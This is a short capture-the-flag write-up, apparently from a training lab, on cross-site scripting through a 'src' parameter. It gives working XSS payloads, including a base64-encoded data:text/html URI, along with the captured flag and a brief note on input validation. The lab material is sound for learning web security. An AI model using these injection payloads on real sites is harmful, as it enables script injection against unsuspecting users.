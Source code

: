 # NSA XSS Injection

### Tools
Developer Tools from web browser

### How to solve it

1. Firt we access the nsa page and check that it has a address where we can try to run some script
2. http://10.0.0.155/?page=media&src=nsa
3. Then we exchange the nsa for this <script>alert("xss")</script> and this doesnt work because we have to put the prefix data:text/html to execute scripts.
4. Then we try : data:text/html,<script>alert("42")</script> and Boom it works but no flag is given
5.  So now we are close, we just have to change the base to 64 so we convert the script code to base 64 and run again.
6.  http://10.0.0.155/index.php?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgnNDInKTs8L3NjcmlwdD4=
7.  And then it gives the flag: 928d819fc19405ae09921a2b71227bd9aba106f9d2d37ac412e9e5a750f1506d
```
<option value="165">1</option>
```
### How to protect it

Input invalidation is the best way to protect against it and data encoding.

